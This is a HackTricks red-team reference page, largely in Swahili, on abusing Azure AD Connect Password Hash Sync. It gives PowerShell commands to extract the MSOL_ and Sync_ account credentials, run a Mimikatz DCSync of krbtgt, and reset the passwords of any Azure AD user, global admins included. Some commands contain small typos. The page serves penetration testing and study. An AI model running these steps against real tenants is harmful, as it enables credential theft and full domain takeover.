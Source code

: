 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Sawa ya usimbaji wa nenosiri** ni moja ya mbinu za kuingia zinazotumika kufanikisha utambulisho wa hybrid. **Azure AD Connect** inasawazisha hash, ya hash, ya nenosiri la mtumiaji kutoka kwa mfano wa Active Directory wa ndani hadi mfano wa Azure AD wa msingi wa wingu.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Ni **mbinu ya kawaida zaidi** inayotumiwa na kampuni kusawazisha AD ya ndani na Azure AD.

**Watumiaji** wote na **hash ya hashes za nenosiri** wanasawazishwa kutoka kwa AD ya ndani hadi Azure AD. Hata hivyo, **nenosiri za wazi** au **hashes za asili** hazitumwi kwa Azure AD.\
Zaidi ya hayo, **makundi ya usalama yaliyojengwa ndani** (kama wasimamizi wa eneo...) **hayasawazishwi** kwa Azure AD.

**Usawazishaji wa hashes** unafanyika kila **dakika 2**. Hata hivyo, kwa kawaida, **kuisha kwa nenosiri** na **kuisha kwa akaunti** **hakusawazishwi** katika Azure AD. Hivyo, mtumiaji ambaye **nenosiri lake la ndani limeisha** (halijabadilishwa) anaweza kuendelea **kupata rasilimali za Azure** akitumia nenosiri la zamani.

Wakati mtumiaji wa ndani anapotaka kupata rasilimali ya Azure, **uthibitishaji unafanyika kwenye Azure AD**.

**PHS** inahitajika kwa vipengele kama **Ulinzi wa Utambulisho** na Huduma za Kikoa za AAD.

## Pivoting

Wakati PHS imewekwa, baadhi ya **akaunti zenye mamlaka** zinaanzishwa kiotomatiki:

* Akaunti **`MSOL_<installationID>`** inaanzishwa kiotomatiki katika AD ya ndani. Akaunti hii inapewa jukumu la **Akaunti za Usawazishaji wa Katalogi** (ona [nyaraka](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) ambayo inamaanisha kwamba ina **idhini za kuiga (DCSync) katika AD ya ndani**.
* Akaunti **`Sync_<name of on-prem ADConnect Server>_installationID`** inaanzishwa katika Azure AD. Akaunti hii inaweza **kurekebisha nenosiri la MTUMIAJI YOYOTE** (iliyowekwa sawa au ya wingu pekee) katika Azure AD.

Nenosiri ya akaunti hizo mbili zenye mamlaka inahifadhiwa katika **seva ya SQL** kwenye seva ambapo **Azure AD Connect imewekwa.** Wasimamizi wanaweza kutoa nenosiri ya watumiaji hao wenye mamlaka kwa maandiko wazi.\
Hifadhidata iko katika `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Inawezekana kutoa usanidi kutoka moja ya meza, ikiwa moja imefichwa:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**Usanidi wa kificho** umefichwa kwa **DPAPI** na unajumuisha **nenosiri za mtumiaji `MSOL_*`** katika AD ya ndani na nenosiri la **Sync\_\*** katika AzureAD. Hivyo, kuathiri haya inawezekana kupandisha hadhi hadi AD na AzureAD.

Unaweza kupata [muonekano kamili wa jinsi akreditivu hizi zinavyohifadhiwa na kufichuliwa katika mazungumzo haya](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Finding the **Azure AD connect server**

Ikiwa **seva ambapo Azure AD connect imewekwa** imeunganishwa na kikoa (iliyopendekezwa katika nyaraka), inawezekana kuipata kwa:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Kutumia MSOL\_*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Unaweza pia kutumia [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) kupata hizi akauti.
{% endhint %}

### Kutumia Sync\_\*

Kuharibu akaunti ya **`Sync_*`** inawezekana **kurekebisha nenosiri** la mtumiaji yeyote (ikiwemo Wasimamizi wa Kimataifa)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Ni pia inawezekana **kubadilisha nywila za watumiaji wa wingu** pekee (hata kama hiyo siyo ya kutarajia)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Ni uwezekano wa kutupa nenosiri la mtumiaji huyu.

{% hint style="danger" %}
Chaguo jingine lingekuwa **kutoa ruhusa za kipaumbele kwa huduma ya msingi**, ambayo mtumiaji wa **Sync** ana **ruhusa** ya kufanya, na kisha **kufikia huduma hiyo ya msingi** kama njia ya privesc.
{% endhint %}

### Seamless SSO

Ni uwezekano wa kutumia Seamless SSO na PHS, ambayo inakabiliwa na matumizi mengine mabaya. Angalia katika:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Marejeleo

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19_AD_Im_in_your_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
